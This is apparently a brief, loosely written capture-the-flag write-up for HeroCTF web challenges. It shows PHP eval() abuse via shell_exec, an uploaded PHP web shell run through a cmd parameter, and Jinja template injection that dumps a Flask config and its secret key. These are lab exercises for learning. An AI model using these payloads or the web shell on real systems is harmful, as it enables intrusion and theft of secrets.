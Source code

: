#Cyber-Security Training
#j3kyll
#PATH :~/Vidéos/Hyd3-100Days/Ted_2.0/Security-Advanced/V? heroctf/HeroCTF_v1/web

V-WEB
1-
For this challenge  a calculator is used and when you write a operations the answers is display but when you don't write a operations and you validate one error appears ,the error concerned 'eval()' functions

`shell_exec("ls")`  for used a shell in the code 
one file is show 
calculator.php
` shell_exec("cat calculator.php")`

 ```php
<?php
  // HeroCTF{us1ng_3v4l_functi0n_1s_b4d}
?>
```

2-
Here you upload a code for to have access a shell
```php
<?php
  print_r(shell_exec($_GET['cmd']));
?>
```

you can to walk in a tree structure with `?cmd=` until to find the flag 
`http://heroctf.fr:6200/tmp/shell.php?cmd=cat+/dossiersupersecret/flag.txt`
3-In this challenge the web site we is given and you can see the source code of site 
the flag is into 

4-Introduction a Jinja exploitation
When you going in the site ,try the jinja injection 


write the tentative operations bizarre   
Ex:`{{3*'3'}}{{3*3}}`

Aif the result is 3339 so write:

`{{config.items()}}` and the source code appears

```php
Hello dict_items([(&#39;ENV&#39;, &#39;production&#39;), (&#39;DEBUG&#39;, False), (&#39;TESTING&#39;, False), (&#39;PROPAGATE_EXCEPTIONS&#39;, None), (&#39;PRESERVE_CONTEXT_ON_EXCEPTION&#39;, None), (&#39;SECRET_KEY&#39;, &#39;j1nj4_1nj3c710n_700_345y_4_m3_10114320&#39;), (&#39;PERMANENT_SESSION_LIFETIME&#39;, datetime.timedelta(days=31)), (&#39;USE_X_SENDFILE&#39;, False), (&#39;SERVER_NAME&#39;, None), (&#39;APPLICATION_ROOT&#39;, &#39;/&#39;), (&#39;SESSION_COOKIE_NAME&#39;, &#39;session&#39;), (&#39;SESSION_COOKIE_DOMAIN&#39;, False), (&#39;SESSION_COOKIE_PATH&#39;, None), (&#39;SESSION_COOKIE_HTTPONLY&#39;, True), (&#39;SESSION_COOKIE_SECURE&#39;, False), (&#39;SESSION_COOKIE_SAMESITE&#39;, None), (&#39;SESSION_REFRESH_EACH_REQUEST&#39;, True), (&#39;MAX_CONTENT_LENGTH&#39;, None), (&#39;SEND_FILE_MAX_AGE_DEFAULT&#39;, datetime.timedelta(seconds=43200)), (&#39;TRAP_BAD_REQUEST_ERRORS&#39;, None), (&#39;TRAP_HTTP_EXCEPTIONS&#39;, False), (&#39;EXPLAIN_TEMPLATE_LOADING&#39;, False), (&#39;PREFERRED_URL_SCHEME&#39;, &#39;http&#39;), (&#39;JSON_AS_ASCII&#39;, True), (&#39;JSON_SORT_KEYS&#39;, True), (&#39;JSONIFY_PRETTYPRINT_REGULAR&#39;, False), (&#39;JSONIFY_MIMETYPE&#39;, &#39;application/json&#39;), (&#39;TEMPLATES_AUTO_RELOAD&#39;, None), (&#39;MAX_COOKIE_SIZE&#39;, 4093)])
```

flag:j1nj4_1nj3c710n_700_345y_4_m3_10114320








End -Report
